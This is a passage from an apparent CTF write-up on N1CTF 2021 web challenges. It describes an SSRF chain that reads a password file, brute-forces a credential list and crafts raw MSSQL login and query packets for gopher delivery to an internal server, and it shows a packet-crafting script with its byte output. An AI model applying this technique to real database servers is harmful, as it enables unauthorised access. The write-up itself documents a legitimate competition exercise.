 ```
--_curl_--fime:///47ac392a-46d9-522d-b854-1af5fb248eba
```

I assumed that the content of `password.txt` would be simple but... it was a long list of UUID-like passwords in it.

This implies that we also need to bruteforce the password to get into the server.

<img src=//harold.kim/static/blog/n1ctf-web-6.png>


Now, the next step would be accessing MSSQL server, which took the longest time amongst all other web challenges.

Unfortunately, we only could find two resources that were useful to achieve SSRF on MSSQL.

1. impacket's MSSQL (https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)
2. 35C3 Post Writeup (https://ctftime.org/writeup/12808)


My initial decision was to port all impacket's MSSQL interface and craft packets.

I actually finished porting all of these codes but it didn't seem to work properly.

``` python
root@stypr-jpn:~/aaa/funny# cat craft.py
...
...
if __name__ == "__main__":
    # 10.11.22.9 , 1443, sa
    # HKEY_LOCAL_MACHINE\SOFTWARE\N1CTF2021
    print(prelogin())
    # def login(server, database, username, password='', domain='', hashes = None, useWindowsAuth = False):
    print(login('10.11.22.9', None, 'sa', password='123456'))
    print(exec_query("SELECT 1337")) # Note: 2 bytes needs to be added on top of it, gopher adds \r\n

root@stypr-jpn:~/aaa/funny# python3 craft.py 
b'\x12\x01\x00/\x00\x00\x00\x00\x00\x00\x15\x00\x06\x01\x00\x1b\x00\x01\x02\x00\x1c\x00\x07\x03\x00#\x00\x04\xff\x08\x00\x01U\x00\x00\x00mssql5\x00\x93\xe0\x00\x00'
b"\x10\x01\x00\xb2\x00\x00\x01\x00\xaa\x00\x00\x00\x00\x00\x00q\xfb\x7f\x00\x00\x00\x00\x00\x07'\x00\x00\x00\x00\x00\x00\x00\xe0\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00V\x00\x08\x00f\x00\x02\x00j\x00\x06\x00v\x00\x08\x00\x86\x00\n\x00\x00\x00\x00\x00\x9a\x00\x08\x00\xaa\x00\x00\x00\xaa\x00\x00\x00\x01\x02\x03\x04\x05\x06\xaa\x00\x00\x00\xaa\x00\x00\x00S\x00K\x00W\x00j\x00y\x00c\x00t\x00m\x00s\x00a\x00\xb6\xa5\x86\xa5\x96\xa5\xe6\xa5\xf6\xa5\xc6\xa5R\x00O\x00w\x00T\x00D\x00E\x00K\x00z\x001\x000\x00.\x001\x001\x00.\x002\x002\x00.\x009\x00R\x00O\x00w\x00T\x00D\x00E\x00K\x00z\x00"
b'\x01\x01\x00(\x00\x00\x01\x00S\x00E\x00L\x00E\x00C\x00T\x00 \x001\x003\x003\x007\x00;\x00-\x00-\x00 \x00-\x00'
```

... Later I realized that impacket's MSSQL client didn't work properly on some of latest SQL servers. I wasted a lot of time from doing this.

But on the other hand, I learnt how MSSQL authentication protocol works. From here, I decided to just manually modify packets from 35C3's exploit code and craft packets.

